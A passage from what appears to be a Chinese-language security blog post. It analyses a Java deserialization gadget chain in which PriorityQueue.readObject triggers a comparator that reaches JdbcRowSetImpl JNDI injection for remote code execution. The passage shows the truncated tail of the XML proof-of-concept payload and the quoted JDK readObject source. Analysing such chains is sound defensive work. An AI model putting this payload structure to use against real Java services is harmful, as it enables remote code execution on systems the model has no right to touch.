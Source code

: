 ```xml
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                        <null/>
                      </strMatchColumns>
                    </default>
                  </com.sun.rowset.JdbcRowSetImpl>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

### [](#分析 "分析")分析

从POC中可以看出

1.  最终的RCE触发点是JdbcRowSetImpl jndi类型注入漏洞
2.  出发点是PriorityQueue自动调用compare方法

PriorityQueue这个也是cc链中被用到的，PriorityQueue实现了Serializable，且重写了readObject。

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
}
```
